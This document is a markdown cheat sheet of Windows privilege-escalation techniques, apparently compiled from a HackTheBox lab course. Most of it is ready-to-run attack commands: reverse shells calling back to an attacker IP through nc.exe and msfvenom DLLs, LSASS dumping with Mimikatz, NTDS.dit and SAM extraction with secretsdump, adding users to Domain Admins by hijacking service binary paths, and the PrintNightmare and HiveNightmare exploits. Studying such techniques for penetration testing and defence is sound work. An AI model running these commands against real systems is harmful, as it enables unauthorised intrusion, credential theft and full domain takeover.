

# Windows Privesc

# **Useful Tools**

---

| Tool | Description |
| --- | --- |
| [Seatbelt](https://github.com/GhostPack/Seatbelt) | C# project for performing a wide variety of local privilege escalation checks |
| [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) | WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts. All of the checks are explained [here](https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html) |
| [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) | PowerShell script for finding common Windows privilege escalation vectors that rely on misconfigurations. It can also be used to exploit some of the issues found |
| [SharpUp](https://github.com/GhostPack/SharpUp) | C# version of PowerUp |
| [JAWS](https://github.com/411Hall/JAWS) | PowerShell script for enumerating privilege escalation vectors written in PowerShell 2.0 |
| [SessionGopher](https://github.com/Arvanaghi/SessionGopher) | SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools. It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, and RDP saved session information |
| [Watson](https://github.com/rasta-mouse/Watson) | Watson is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities. |
| [LaZagne](https://github.com/AlessandroZ/LaZagne) | Tool used for retrieving passwords stored on a local machine from web browsers, chat tools, databases, Git, email, memory dumps, PHP, sysadmin tools, wireless network configurations, internal Windows password storage mechanisms, and more |
| [Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng) | WES-NG is a tool based on the output of Windows' `systeminfo` utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 10, including their Windows Server counterparts, is supported |
| [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) | We will use several tools from Sysinternals in our enumeration including [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk), [PipeList](https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist), and [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice) |

# **Situational Awareness**

## Network Information

```powershell
# Interface(s), IP Address(es), DNS Information
ipconfig /all

# ARP Table
arp -a

# Routing Table
route print
```

**Check Windows Defender Status**

```powershell
Get-MpComputerStatus
```

**List AppLocker Rules**

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

**Test AppLocker Policy**

```powershell
Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone
```

# Initial Enumeration

## **System Information**

**tasklist**

```powershell
tasklist /svc
```

**Display All Environment Variables**

```powershell
set
```

**View Detailed Configuration Information**

```powershell
systeminfo
```

**Patches and Updates**

If `systeminfo` doesn't display hotfixes, they may be queriable with [WMI](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) using the WMI-Command binary with [QFE (Quick Fix Engineering)](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/win32-quickfixengineering) to display patches.

```powershell
# cmd
wmic qfe

# powershell
Get-HotFix | ft -AutoSize

----
# installed programs 
wmic product get name

# powershell 
Get-WmiObject -Class Win32_Product |  select Name, Version
```

**Display Running Processes**

```powershell
netstat -ano
```

## **User & Group Information**

**Logged-In Users**

```powershell
query user
```

**Current User**

```powershell
echo %USERNAME%
```

**Current User Privileges**

```powershell
whoami /priv
```

**Current User Group Information**

```powershell
whoami /groups
```

**Get All Users**

```powershell
net user
```

**Get All Groups**

```powershell
net localgroup

# Details About a Group
net localgroup administrators
```

**Get Password Policy & Other Account Information**

```powershell
net accounts
```

## **Named Pipes**

The other way processes communicate with each other is through Named Pipes. Pipes are essentially files stored in memory that get cleared out after being read.

Often, Cobalt Strike users will change their named pipes to masquerade as another program. One of the most common examples is mojo instead of msagent.

**Listing Named Pipes with Pipelist**

```powershell
# cmd
pipelist.exe /accepteula

# powershell
 gci \\.\pipe\
```

**Reviewing LSASS Named Pipe Permissions**

```powershell
accesschk.exe /accepteula \\.\Pipe\lsass -v
```

# Windows User Privileges

## **SeImpersonate and SeAssignPrimaryToken**

**JuicyPotato PrintSpoofer and RoguePotato**

Juicy Patato doesnt work on Windows Server 2019 and Windows 10 build 1809 onwards

```powershell
# print spoofer 
 c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

## **SeDebugPrivilege**

We can use ProcDump from the SysInternals suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service (LSASS) process, which stores user credentials after a user logs on to a system.

```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

 we can load this in `Mimikatz` using the `sekurlsa::minidump` command. After issuing the `sekurlsa::logonPasswords` commands, we gain the NTLM hash of the local administrator account logged on locally. We can use this to perform a pass-the-hash attack to move laterally if the same local administrator password is used on one or multiple additional systems (common in large organizations).

```powershell

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...
```

We can also leverage `SeDebugPrivilege` for [RCE](https://decoder.cloud/2018/02/02/getting-system/). Using this technique, we can elevate our privileges to SYSTEM by launching a [child process](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes) and using the elevated rights granted to our account via `SeDebugPrivilege` to alter normal system behavior to inherit the token of a [parent process](https://docs.microsoft.com/en-us/windows/win32/procthread/processes-and-threads) and impersonate it. If we target a parent process running as SYSTEM (specifying the Process ID (or PID) of the target process or running program), then we can elevate our rights quickly. Let's see this in action.

First, transfer this [PoC script](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) over to the target system. Next we just load the script and run it with the following syntax `[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`. Note that we must add a third blank argument `""` at the end for the PoC to work properly.

## **SeTakeOwnershipPrivilege**

making enable the privileges you have

```powershell
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1
```

**Choosing a Target File**

```powershell
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
 
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```

**Checking File Ownership**

```powershell
 cmd /c dir /q 'C:\Department Shares\Private\IT'
```

**Taking Ownership of the File**

```powershell
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

**Modifying the File ACL**

We may still not be able to read the file and need to modify the file ACL using `icacls` to be able to read it.

```powershell
 icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

```

# Windows Group Privileges

## windows build in groups

### backup operators

We can use this [PoC](https://github.com/giuliano108/SeBackupPrivilege) to exploit the `SeBackupPrivilege`, and copy this file. First, let's import the libraries in a PowerShell session.

```powershell
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll
```

**Enabling SeBackupPrivilege**

```powershell
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```

**Copying a Protected File**

```powershell
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```

#### **Attacking a Domain Controller - Copying NTDS.dit**

This group also permits logging in locally to a domain controller. The active directory database `NTDS.dit` is a very attractive target, as it contains the NTLM hashes for all user and computer objects in the domain. However, this file is locked and is also not accessible by unprivileged users.

As the `NTDS.dit` file is locked by default, we can use the Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to create a shadow copy of the `C` drive and expose it as `E` drive. The NTDS.dit in this shadow copy won't be in use by the system.

```powershell
PS C:\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\htb> dir E:

    Directory: E:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
```

**Copying NTDS.dit Locally**

```powershell
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit

```

**Backing up SAM and SYSTEM Registry Hives**

```powershell
reg save HKLM\SYSTEM SYSTEM.SAV
```

**Extracting Credentials from NTDS.dit**

With the NTDS.dit extracted, we can use a tool such as `secretsdump.py` or the PowerShell `DSInternals` module to extract all Active Directory account credentials.

```powershell
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

### **Robocopy**

**Copying Files with Robocopy**

The built-in utility [robocopy](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy) can be used to copy files in backup mode as well. Robocopy is a command-line directory replication tool. It can be used to create backup jobs and includes features such as multi-threaded copying, automatic retry, the ability to resume copying, and more. Robocopy differs from the `copy` command in that instead of just copying all files, it can check the destination directory and remove files no longer in the source directory. It can also compare files before copying to save time by not copying files that have not been changed since the last copy/backup job ran.

```powershell
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

## **Event Log Readers**

We can query Windows events from the command line using the [wevtutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil) utility and the [Get-WinEvent](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.diagnostics/get-winevent?view=powershell-7.1) PowerShell cmdlet.

```powershell
PS C:\htb> wevtutil qe Security /rd:true /f:text | Select-String "/user"

        Process Command Line:   net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```

We can also specify alternate credentials for `wevtutil` using the parameters `/u` and `/p`.

```powershell
C:\htb> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"

```

For `Get-WinEvent`, the syntax is as follows. In this example, we filter for process creation events (4688), which contain `/user` in the process command line.

Note: Searching the `Security` event log with `Get-WInEvent` requires administrator access or permissions adjusted on the registry key `HKLM\System\CurrentControlSet\Services\Eventlog\Security`. Membership in just the `Event Log Readers` group is not sufficient.

```powershell
PS C:\htb> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}

CommandLine
-----------
net use T: \\fs01\backups /user:tim MyStr0ngP@ssword

```

## DnsAdmins

### **Leveraging DnsAdmins Access**

**Generating Malicious DLL**

We can generate a malicious DLL to add a user to the `domain admins` group using `msfvenom`.

```powershell
Fau5t@htb[/htb]$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

```

```powershell
# start py server
python3 -m http.server 7777

# pull payload in powershell
 wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

**Loading DLL as Member of DnsAdmins**

Loading DLL as Non-Privileged User is not allowed

```powershell
Get-ADGroupMember -Identity DnsAdmins
```

**Loading Custom DLL**

```powershell
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

Note: We must specify the full path to our custom DLL or the attack will not work properly.

With the registry setting containing the path of our malicious plugin configured, and our payload created, the DLL will be loaded the next time the DNS service is started. Membership in the DnsAdmins group doesn't give the ability to restart the DNS service, but this is conceivably something that sysadmins might permit DNS admins to do.

After restarting the DNS service (if our user has this level of access), we should be able to run our custom DLL and add a user (in our case) or get a reverse shell. If we do not have access to restart the DNS server, we will have to wait until the server or service restarts. Let's check our current user's permissions on the DNS service.

**Finding User's SID**

```powershell
wmic useraccount where "name='netadm'" get sid
```

**Checking Permissions on DNS Service**

Once we have the user's SID, we can use the `sc` command to check permissions on the service. Per this [article](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/), we can see that our user has `RPWP` permissions which translate to `SERVICE_START` and `SERVICE_STOP`, respectively.

```powershell
sc.exe sdshow DNS
```

**Start/Stop the DNS Service**

```powershell
sc stop dns

sc start dns
```

If all goes to plan, our account will be added to the Domain Admins group or receive a reverse shell if our custom DLL was made to give us a connection back.

**Confirming Group Membership**

```powershell
net group "Domain Admins" /dom
```

**Cleaning Up**

Making configuration changes and stopping/restarting the DNS service on a Domain Controller are very destructive actions and must be exercised with great care

**Confirming/Deleting Registry Key Added**

The first step is confirming that the `ServerLevelPluginDll` registry key exists. Until our custom DLL is removed, we will not be able to start the DNS service again correctly.

```powershell
# confirm
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters

# delete
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll
```

**Starting the DNS Service Again**

```powershell
sc.exe start dns
```

**Checking DNS Service Status**

```powershell
sc query dns
```

### **Using Mimilib.dll**

As detailed in this [post](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), we could also utilize [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the `Mimikatz` tool to gain command execution by modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute a reverse shell one-liner or another command of our choosing.

### **Creating a WPAD Record**

Another way to abuse DnsAdmins group privileges is by creating a WPAD record. Membership in this group gives us the rights to [disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps), which by default blocks this attack. Server 2008 first introduced the ability to add to a global query block list on a DNS server. By default, Web Proxy Automatic Discovery Protocol (WPAD) and Intra-site Automatic Tunnel Addressing Protocol (ISATAP) are on the global query block list. These protocols are quite vulnerable to hijacking, and any domain user can create a computer object or DNS record containing those names.

After disabling the global query block list and creating a WPAD record, every machine running WPAD with default settings will have its traffic proxied through our attack machine. We could use a tool such as [Responder](https://github.com/lgandx/Responder) or [Inveigh](https://github.com/Kevin-Robertson/Inveigh) to perform traffic spoofing, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack.

**Disabling the Global Query Block List**

```powershell
PS C:\htb> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local

```

**Adding a WPAD Record**

```powershell
PS C:\htb> Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3

```

## Print Operators

[Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#print-operators) is another highly privileged group, which grants its members the `SeLoadDriverPrivilege`, rights to manage, create, share, and delete printers connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down. If we issue the command `whoami /priv`, and don't see the `SeLoadDriverPrivilege` from an unelevated context, we will need to bypass UAC.

It's well known that the driver `Capcom.sys` contains functionality to allow any user to execute shellcode with SYSTEM privileges. We can use our privileges to load this vulnerable driver and escalate privileges. We can use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool to load the driver. The PoC enables the privilege as well as loads the driver for us.

Download it locally and edit it, pasting over the includes below.

```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"

```

**Compile with cl.exe**

```powershell
C:\Users\mrb3n\Desktop\Print Operators>cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp

Microsoft (R) C/C++ Optimizing Compiler Version 19.28.29913 for x86
Copyright (C) Microsoft Corporation.  All rights reserved.

EnableSeLoadDriverPrivilege.cpp
Microsoft (R) Incremental Linker Version 14.28.29913.0
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:EnableSeLoadDriverPrivilege.exe
EnableSeLoadDriverPrivilege.obj
```

**Add Reference to Driver**

Next, download the `Capcom.sys` driver from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys), and save it to `C:\temp`. Issue the commands below to add a reference to this driver under our HKEY_CURRENT_USER tree.

```powershell
C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

The operation completed successfully.

C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

The operation completed successfully.

```

**Verify Driver is not Loaded**

Using Nirsoft's [DriverView.exe](http://www.nirsoft.net/utils/driverview.html), we can verify that the Capcom.sys driver is not loaded.

```powershell
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom

```

**Verify Privilege is Enabled**

```powershell
EnableSeLoadDriverPrivilege.exe
```

**Verify Capcom Driver is Listed**

```powershell
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
```

**Use ExploitCapcom Tool to Escalate Privileges**

```powershell
.\ExploitCapcom.exe
```

**Alternate Exploitation - No GUI**

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

```powershell
// Launches a command shell process
static bool LaunchShell()
{
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

## Server Operators

The [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful `SeBackupPrivilege` and `SeRestorePrivilege` privileges and the ability to control local services.

**Querying the AppReadiness Service**

```powershell
sc qc AppReadiness
```

**Checking Service Permissions with PsService**

We can use the service viewer/controller [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice), which is part of the Sysinternals suite, to check permissions on the service. `PsService` works much like the `sc` utility and can display service status and configurations and also allow you to start, stop, pause, resume, and restart services both locally and on remote hosts.

```powershell
c:\Tools\PsService.exe security AppReadiness
```

**Modifying the Service Binary Path**

```powershell
 sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

```powershell
sc start AppReadiness
```

**Confirming Local Admin Group Membership**

```powershell
net localgroup Administrators
```

then we can do a secretsdump

# Attacking the OS

## User Account Control

**Confirming UAC is Enabled**

```powershell
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1
```

**Checking UAC Level**

```powershell
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5
```

The value of `ConsentPromptBehaviorAdmin` is `0x5`, which means the highest UAC level of `Always notify` is enabled. There are fewer UAC bypasses at this highest level.

**Checking Windows Version**

```powershell
PS C:\htb> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0

```

This returns the build version 14393, which using [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page we cross-reference to Windows release `1607`.

**Reviewing Path Variable**

```powershell
PS C:\htb> cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

**Generating Malicious srrstr.dll DLL**

```powershell
Fau5t@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

```

**Testing Connection**

```powershell
# assuming we got the file in our victim & listening the port
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll

```

**Executing SystemPropertiesAdvanced.exe on Target Host**

```powershell
C:\htb> tasklist /svc | findstr "rundll32"
rundll32.exe                  6300 N/A
rundll32.exe                  5360 N/A
rundll32.exe                  7044 N/A

C:\htb> taskkill /PID 7044 /F
SUCCESS: The process with PID 7044 has been terminated.

C:\htb> taskkill /PID 6300 /F
SUCCESS: The process with PID 6300 has been terminated.

C:\htb> taskkill /PID 5360 /F
SUCCESS: The process with PID 5360 has been terminated.

```

```powershell
# this should also make a connection with our listener
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

## Weak Permissions

### **Permissive File System ACLs**

**Running SharpUp**

```powershell
.\SharpUp.exe audit
=== Modifiable Service Binaries ===

  Name             : SecurityService
  DisplayName      : PC Security Management Service
  Description      : Responsible for managing PC security
  State            : Stopped
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

**Checking Permissions with icacls**

```powershell
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

**Replacing Service Binary**

This service is also startable by unprivileged users, so we can make a backup of the original binary and replace it with a malicious binary generated with `msfvenom`. It can give us a reverse shell as `SYSTEM`, or add a local admin user and give us full administrative control over the machine.

```powershell
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService
```

### **Weak Service Permissions**

```powershell
C:\htb> SharpUp.exe audit
 
=== SharpUp: Running Privilege Escalation Checks ===
 
 
=== Modifiable Services ===
 
  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"
```

**Checking Permissions with AccessChk**

```powershell
C:\htb> accesschk.exe /accepteula -quvcw WindscribeService
 
Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com
 
WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
```

**Changing the Service Binary Path**

```powershell
C:\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

[SC] ChangeServiceConfig SUCCESS

```

**Stopping&Starting Service**

```powershell
sc stop WindscribeService

sc start WindscribeService
```

**Cleanup**

```powershell
sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"
 
sc start WindScribeService 
```

### **Unquoted Service Path**

**Service Binary Path**

```powershell
C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
```

**Querying Service**

```powershell
sc qc SystemExplorerHelpService
```

**Searching for Unquoted Service Paths**

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

### **Permissive Registry ACLs**

**Checking for Weak Service ACLs in Registry**

```powershell
 accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```

**Changing ImagePath with PowerShell**

```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

### **Modifiable Registry Autorun Binary**

**Check Startup Programs**

```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

This [post](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries.html) and [this site](https://www.microsoftpressstore.com/articles/article.aspx?p=2762082&seqNum=2) detail many potential autorun locations on Windows systems.

## Kernel Exploits

[https://msrc.microsoft.com/update-guide/vulnerability](https://msrc.microsoft.com/update-guide/vulnerability)

**Checking Permissions on the SAM File**

```powershell
icacls c:\Windows\System32\config\SAM
```

Successful exploitation also requires the presence of one or more shadow copies. Most Windows 10 systems will have `System Protection` enabled by default which will create periodic backups, including the shadow copy necessary to leverage this flaw.

**Performing Attack and Parsing Password Hashes**

This [PoC](https://github.com/GossiTheDog/HiveNightmare) can be used to perform the attack, creating copies of the aforementioned registry hives:

```powershell
.\HiveNightmare.exe
```

```powershell
impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local
```

**Checking for Spooler Service**

```powershell
ls \\localhost\pipe\spoolss
```

**Adding Local Admin with PrintNightmare PowerShell PoC**

```powershell
Set-ExecutionPolicy Bypass -Scope Process
```

```powershell
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "user1234" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```

### **Enumerating Missing Patches**

**Examining Installed Updates**

```powershell
PS C:\htb> systeminfo
PS C:\htb> wmic qfe list brief
PS C:\htb> Get-Hotfix
```

**Viewing Installed Updates with WMI**

```powershell
 wmic qfe list brief
```

We can search for each KB (Microsoft Knowledge Base ID number) in the [Microsoft Update Catalog](https://www.catalog.update.microsoft.com/Search.aspx?q=KB5000808) to get a better idea of what fixes have been installed and how far behind the system may be on security updates. A search for `KB5000808` shows us that this is an update from March of 2021, which means the system is likely far behind on security updates.

### Vulnerable Services

**Enumerating Installed Programs**

```powershell
wmic product get name
```

**Enumerating Local Ports**

```powershell
netstat -ano
```

**Enumerating Process ID**

```powershell
get-process -Id 3324
```

in this scenario we stumble upon Druva inSYNC, that is exploitable.

# Credential Theft

## Credential Hunting

**Application Configuration Files**

```powershell
 findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```

**Dictionary Files**

```powershell
'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```

**Unattended Installation Files**

Unattended installation files may define auto-logon settings or additional accounts to be created as part of the installation. Passwords in the `unattend.xml` are stored in plaintext or base64 encoded.

Although these files should be automatically deleted as part of the installation, sysadmins may have created copies of the file in other folders during the development of the image and answer file.

**PowerShell History File**

```powershell
C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt.

```

```powershell
PS C:\htb> (Get-PSReadLineOption).HistorySavePath

C:\Users\htb-student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

gc (Get-PSReadLineOption).HistorySavePath
```

**PowerShell Credentials**

Take, for example, the following script `Connect-VC.ps1`, which a sysadmin has created to connect to a vCenter server easily.

```powershell
# Connect-VC.ps1
# Get-Credential | Export-Clixml -Path 'C:\scripts\pass.xml'
$encryptedPassword = Import-Clixml -Path 'C:\scripts\pass.xml'
$decryptedPassword = $encryptedPassword.GetNetworkCredential().Password
Connect-VIServer -Server 'VC-01' -User 'bob_adm' -Password $decryptedPassword
```

**Decrypting PowerShell Credentials**

```powershell
PS C:\htb> $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
PS C:\htb> $credential.GetNetworkCredential().username

bob

PS C:\htb> $credential.GetNetworkCredential().password

Str0ng3ncryptedP@ss!
```

## Other files

There are many other types of files that we may find on a local system or on network share drives that may contain credentials or additional information that can be used to escalate privileges. In an Active Directory environment, we can use a tool such as [Snaffler](https://github.com/SnaffCon/Snaffler) to crawl network share drives for interesting file extensions such as `.kdbx`, `.vmdk`, `.vdhx`, `.ppk`, etc

**Manually Searching the File System for Credentials**

```powershell
cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt

findstr /si password *.xml *.ini *.txt *.config

findstr /spin "password" *.*

